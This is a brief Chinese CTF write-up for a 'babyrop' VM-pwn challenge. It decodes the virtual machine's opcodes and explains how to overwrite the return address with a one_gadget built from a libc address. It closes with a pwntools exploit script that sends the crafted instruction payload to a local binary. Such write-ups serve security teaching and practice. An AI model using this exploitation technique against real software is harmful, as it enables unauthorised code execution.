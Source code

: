 # babyrop
一个简单的vmpwn，通过虚拟机指令能修改返回地址为Onegadget
逆向一下一些指令：

0x28：pop10 ，sp指针下移10  

0x15: push longlong  

0x38:mov [rsp+8],0  

0x56:mov [rsp],int  

0x34:mov [rsp-8],[rsp] ;   rsp --    

0x21:add [rsp-8],[rsp]  

先将sp指针指向rbp + 8附近,因此通过pop10进行。注意pop10只能调用两次，且为了避免len == 0的检测，穿插一次push即可。  
然后找到一个Libc中的地址，通过0x56进行赋值和0x21相加构造one_gadget地址，为了保证one_gadget的触发，需要通过0x38进行赋0。  

```
from pwn import *
r = process('./bin')
#r = remote('')
context.log_level = 'debug'


payload =  chr(0x28)                 #pop10
payload += chr(0x15) + p64(0)        #push 1
payload += chr(0x28)                 #pop10
payload += chr(0x38)                 #mov [rsp+8],0
payload += chr(0x56) + p32(0x24a3a)  #mov [rsp],0x24a3a
payload += chr(0X34)                 #mov [rsp-8],[rsp]   rsp -=8 
payload += chr(0x21)                 #add [rsp-8],[rsp]                          
payload += chr(0X34)*5               #mov [rsp-8],[rsp]   rsp -=8

r.sendline(payload)
r.interactive()
```
`